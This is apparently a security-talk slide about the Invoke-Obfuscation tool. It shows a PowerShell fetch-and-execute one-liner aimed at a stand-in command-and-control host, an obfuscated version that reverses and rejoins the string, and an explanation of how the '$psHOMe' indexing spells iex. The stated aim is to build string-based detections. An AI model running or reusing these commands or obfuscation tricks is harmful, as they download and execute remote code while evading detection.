

# Invoke Obfuscation
Turn This!

Invoke-expression (invoke-webrequest “http://hackerc2.io”)

So, we can iterate through Invoke-Obfuscation and build string-based detections to lock build rules to find specific strings.

“.( $psHOMe[4]+$psHOMe[34]+'X’)” actually means iex which means invoke-expression.
Into this!

SET  ("l"+"s4W")  (  [chAR[]] "))')”o'+'i'+'.'+'2crekcah//:'+'ptth“ '+'tseu'+'qerbe'+'w-e'+'k'+'o'+'v'+'n'+'i( noit'+'acsufb'+'o'+'-e'+'k'+'ovnI'(()'x'+]31[DilLEhs$+]1[diLLEHs$ ( & "  );  [ArrAY]::reveRse($ls4W); .( $psHOMe[4]+$psHOMe[34]+'X')( -JoIn$ls4W)